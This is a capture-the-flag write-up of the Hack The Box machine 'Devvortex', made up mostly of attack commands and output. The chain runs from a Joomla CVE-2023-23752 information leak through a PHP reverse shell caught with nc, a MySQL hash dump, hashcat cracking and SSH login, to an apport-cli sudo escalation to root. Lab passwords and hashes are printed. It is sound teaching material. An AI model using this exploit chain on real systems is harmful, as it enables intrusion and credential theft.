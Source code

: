 # Devvortex - Easy Machine
URL: https://app.hackthebox.com/machines/Devvortex

## User Flag 
Let's start reviewing the machine:
```bash
~z➤ curl -I devvortex.htb
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 29 Dec 2023 01:37:06 GMT
Content-Type: text/html
Content-Length: 18048
Last-Modified: Tue, 12 Sep 2023 17:45:54 GMT
Connection: keep-alive
ETag: "6500a3d2-4680"
Accept-Ranges: bytes
```

Leaked some info from HTML src:
- info@DevVortex.htb

By scanning the sub-domains I found this:
```bash
~z➤ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://devvortex.htb/ -H "Host: FUZZ.devvortex.htb" -fc 302
.....
 :: Method           : GET
 :: URL              : http://devvortex.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.devvortex.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 302
________________________________________________

[Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 219ms]
    * FUZZ: dev
```

Now let's scan that site **dev.devvortex.htb**.
It turns out to be a Joomla site:
```bash
~z➤ curl -s http://dev.devvortex.htb/huh | ag joomla
.....
        <link href="/media/vendor/joomla-custom-elements/css/joomla-alert.min.css?0.2.0" rel="stylesheet" />
    <script type="application/json" class="joomla-script-options new">{"joomla.jtext":{"ERROR":"Error","MESSAGE":"Message","NOTICE":"Notice","WARNING":"Warning","JCLOSE":"Close","JOK":"OK","JOPEN":"Open"},"system.paths":{"root":"","rootFull":"http:\/\/dev.devvortex.htb\/","base":"","baseFull":"http:\/\/dev.devvortex.htb\/"}}</script>
```

![](../../images/2023-12-28_21-51.png "Joomla Admin Page")

Let's use **joomscan**:
```bash
~z➤ joomscan --joomla-version --random-agent  -u http://dev.devvortex.htb
Processing http://dev.devvortex.htb ...
[+] Detecting Joomla Version
[++] Joomla 4.2.6
.....
```

### Exploiting Joomla 4.2.6 with CVE-2023-23752

```bash
~z➤ gem install httpx docopt paint
~z➤ git@github.com:Acceis/exploit-CVE-2023-23752.git

../z/exploit-CVE-2023-23752➤ ruby exploit.rb http://dev.devvortex.htb
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```
Wow, that was fast!

Ok we are now admin
![](../../images/2023-12-28_22-03.png "Joomla Admins!")

Ok, now we have to upload a reverse php shell via its own Joomla Templates:
![](../../images/2023-12-29_16-25.png "Uploading php revshell")

So a simple to our PHP file will help:
```bash
curl http://dev.devvortex.htb/administrator/templates/atum/foo.php

# Voila
../tmp/z➤ sudo nc -lvn -p 55555
[sudo] password for n0kt:
Connection from 10.10.11.242:52550
bash: cannot set terminal process group (861): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb/administrator/templates/atum$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@devvortex:~/dev.devvortex.htb/administrator/templates/atum$
```

Nice we have mysql client installed:
```bash
www-data@devvortex:~$ mysql --version
mysql --version
mysql  Ver 8.0.35-0ubuntu0.20.04.1 for Linux on x86_64 ((Ubuntu))

www-data@devvortex:~$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@devvortex:~$ mysql -u lewis -h localhost -p
...
mysql> describe sd4fg_users;
describe sd4fg_users;
+---------------+---------------+------+-----+---------+----------------+
| Field         | Type          | Null | Key | Default | Extra          |
+---------------+---------------+------+-----+---------+----------------+
| id            | int           | NO   | PRI | NULL    | auto_increment |
| name          | varchar(400)  | NO   | MUL |         |                |
| username      | varchar(150)  | NO   | UNI |         |                |
| email         | varchar(100)  | NO   | MUL |         |                |
| password      | varchar(100)  | NO   |     |         |                |
| block         | tinyint       | NO   | MUL | 0       |                |
| sendEmail     | tinyint       | YES  |     | 0       |                |
| registerDate  | datetime      | NO   |     | NULL    |                |
| lastvisitDate | datetime      | YES  |     | NULL    |                |
| activation    | varchar(100)  | NO   |     |         |                |
| params        | text          | NO   |     | NULL    |                |
| lastResetTime | datetime      | YES  |     | NULL    |                |
| resetCount    | int           | NO   |     | 0       |                |
| otpKey        | varchar(1000) | NO   |     |         |                |
| otep          | varchar(1000) | NO   |     |         |                |
| requireReset  | tinyint       | NO   |     | 0       |                |
| authProvider  | varchar(100)  | NO   |     |         |                |
+---------------+---------------+------+-----+---------+----------------+
17 rows in set (0.01 sec)

mysql> select name,username,email,password from sd4fg_users;
select name,username,email,password from sd4fg_users;
+------------+----------+---------------------+--------------------------------------------------------------+
| name       | username | email               | password                                                     |
+------------+----------+---------------------+--------------------------------------------------------------+
| lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+------------+----------+---------------------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
```
Now we just need to crack that:
```bash
../tmp/z➤ hashcat -m 3200 -a 0  creds.txt /usr/share/dict/rockyou.txt --force
.....
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72
Hashes: 2 digests; 2 unique digests, 2 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
.....
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
.....
```

```bash 
~z➤ ssh logan@devvortex.htb ls
logan@devvortex.htb's password:
user.txt
```
## Root Flag 
We have something here:
```bash
logan@devvortex:~$ sudo -l
[sudo] password for logan:
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

That is a vulnerable version of apport, you have to get the PAGER enabled when using that apport-cli app, you can just run the command and call `--file-bug` wizard menu which will eventually pop a PAGER where you can open a shell, with root privs.:
```bash
logan@devvortex:~$ sudo /usr/bin/apport-cli --file-bug

*** What kind of problem do you want to report?

Choices:
  1: Display (X.org)
  2: External or internal storage devices (e. g. USB sticks)
  3: Security related problems
  4: Sound/audio related problems
  5: dist-upgrade
.....
Please choose (S/V/K/I/C): v
root@devvortex:/home/logan# ls ~/
root.txt
```

## TODOs
- Study CVE-2023-23752
